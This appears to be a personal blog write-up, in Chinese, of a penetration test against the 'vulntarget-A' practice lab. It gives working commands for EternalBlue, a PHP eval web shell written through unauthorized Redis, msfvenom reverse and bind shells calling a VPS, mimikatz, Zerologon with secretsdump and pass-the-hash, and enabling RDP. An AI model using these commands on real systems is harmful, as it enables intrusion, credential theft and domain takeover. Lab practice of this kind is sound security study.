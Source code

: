 ```yaml
---
title: "vluntargetA靶场笔记"
slug: "vulntarget-A-notes"
description: "很小白，很基础，很菜，别骂了"
date: 2022-04-24T22:08:10+08:00
categories: ["PENTEST"]
series: ["vulntarget"]
tags: ["渗透靶机"]
draft: false
toc: false
---
```


> 本机    192.168.110.131
>
> 靶机win7    192.168.110.129; 10.0.20.98
>
> 域用户win2016    10.0.20.98; 10.0.10.111
>
> 域控win2019    10.0.10.110

访问192.168.110.129的80web页面，是通达OA

/inc/expired.php页面获得版本信息

![image-20220324162505563](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220324162505563.png)

nmap扫一下，开了445的win7，试一下永恒之蓝

```bash
use auxiliary/scanner/smb/smb_ms17_010
use exploit/windows/smb/ms17_010_eternalblue
```

得到shell，看下网络信息

![image-20220324164533684](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220324164533684.png)

有一个内网ip 10.0.20.98

msf的不稳定，做进程迁移；上传npc做socks5代理

```bash
meterpreter > run post/windows/manage/migrate
meterpreter > upload /home/kali/t00ls/nps_client_win/npc.exe C:\\Users
npc.exe install -server=xxx -vkey=xxx
npc.exe start
```

```
vim /etc/proxychains4.conf
# proxy dns
socks5 ip port
```

另外传一个cs的🐎并上线

```bash
meterpreter > upload /home/kali/t3mp/cs1.exe C:\\Users
beacon > sleep 5
```

挂代理后扫描内网c段

```bash
proxychains4 nmap -Pn 10.0.20.98/24
```

发现10.0.20.99有redis，尝试redis未授权写shell（实际这里扫崩了，直接打的

更蛋疼的是kali安装不了redis-cli，各种换源都无解，只能把原来只代给局域网的再代给公网，连出来打

首先生成个msf🐎连给我自己的kali虚拟机，这里的坑点：两处的payload要严格一致（别多一个或少一个x64，另外lhost设为0.0.0.0才可以被代出去

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=vps_ip LPORT=port -f exe > msfr.exe
msf > use exploit/multi/handler
msf > set payload windows/meterpreter/reverse_tcp
msf > set lhost 0.0.0.0
msf > set lport 2308
msf > run
```

然后在得到的shell里把之前注册好的npc取消注册后重新注册为公网的

```bash
npc.exe stop
npc.exe uninstall
npc.exe install -server=xxx -vkey=xxx
npc.exe start
```

和之前一样，改proxychains的配置文件（不复制了），windows用proxifier（也很简单）

2308 meterpreter

2309 socks5 win7 win7123

```bash
proxychains4 redis-cli -h 10.0.20.99
> config set dir "C:/phpStudy/PHPTutorial/WWW/"
> config set dbfilename tx.php
> set 1 "<?php @eval($_POST['ame']);?>"
> save
```

连蚁剑，cs上用代理转发上线 via 10.0.20.98，所以需要再前面把公网的代理换回去，再uninstall install 一次

注意实测pivoting->Listener这样生成的反向马并不能弹回来，原因未知；解决办法是生成Listener为beacon TCP的正向马，再在之前的beacon中connect 10.0.20.99，即可上线

![image-20220326114155490](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220326114155490.png)

![image-20220326114119006](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220326114119006.png)

mimikatz抓密码，得到非明文hash

上传msf正向🐎并连接

```bash
msfvenom -p windows/x64/meterpreter/bind_tcp LPORT=6698 -f exe > msfr2.exe
msf > set proxies socks5:192.168.110.131:8879
msf > use exploit/multi/handler
msf > set payload windows/x64/meterpreter/bind_tcp
msf > set lport 6698
msf > set rhost 10.0.20.99
msf > exploit
meterpreter > run post/windows/manage/migrate
```

但这里得到的session非常容易断，动不动就reason: died，只能手动把马和exploit多用几次

定位域控

```bash
run post/windows/gather/enum_domain
```

得到域和域控信息

![image-20220326163730199](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20220326163730199.png)

添加主机对10.0.10.*的路由

```bash
msf > bg
msf > sessions x
meterpreter > run post/multi/mamage/autoroute
```

nmap简单扫一下

```bash
proxychains4 nmap -sS -Pn 10.0.10.110
```

用cve-2020-1472域内提权


```bash
proxychains4 python3 cve-2020-1472-exploit.py win2019 10.0.10.110
proxychains4 python3 secretsdump.py vulntarget.com/win2019\$@10.0.10.110 -no-pass	# 得到administrator的hash
proxychains4 python3 smbexec.py -hashes <hash> administrator@10.0.10.110
```

开启远程桌面

```bash
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /t REG_DWORD /v portnumber /d 3389 /f
wmic RDTOGGLE WHERE ServerName='%COMPUTERNAME%' call SetAllowTSConnections 1
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
```

```bash
proxychains rdesktop 10.0.10.110
```

